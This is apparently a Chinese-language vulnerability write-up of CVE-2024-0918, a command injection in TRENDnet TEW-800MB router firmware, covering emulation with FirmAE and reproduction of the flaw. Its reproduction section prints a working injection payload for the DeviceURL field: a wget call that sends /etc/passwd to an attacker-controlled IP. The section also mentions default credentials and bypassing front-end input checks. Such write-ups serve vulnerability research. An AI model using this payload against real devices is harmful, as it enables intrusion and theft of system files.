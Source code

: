 # CVE-2024-0918 TEW-800MB RCE漏洞分析

固件版本为1.0.1.0的TEW-800MB路由器存在命令注入漏洞。如果攻击者获得了web管理权限，他们可以将命令注入到httpd未知函数中的post请求参数DeviceURL中，从而获得shell权限。

固件下载https://www.trendnet.com/support/support-detail.asp?prod=100_RB-TEW-800MB

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136217009
- https://nvd.nist.gov/vuln/detail/CVE-2024-0918

## 漏洞环境搭建

固件环境模拟项目https://github.com/pr0v3rbs/FirmAE，跟着项目文档依次执行命令安装项目依赖包。

将下载好的固件放入项目，运行下面命令启动模拟环境。

```shell
sudo ./run.sh -d TRENDnet ../fw_tew800mb\(v1.0.1.0\)_08012013/FW_TEW800MB\(v1.0.1.0\)_08012013.bin
```

![](https://img-blog.csdnimg.cn/direct/a433c9de74864aa7a80f4013313db159.png)

## 漏洞复现

登录路由器管理页面 用户名密码都为admin，访问/adm/management.asp页面。

![](https://img-blog.csdnimg.cn/direct/ffe15e799b754f2d94c222fbd9a38d91.png)

将Device URL字段改为我们的payload 

注意：前端会有输入限制 删除相关js代码即可

```shell
`wget http://192.168.116.131:4444?$(cat /etc/passwd)`
```

![img](https://img-blog.csdnimg.cn/direct/6bad85a54d7b4c4493cb0bd036935b7e.png)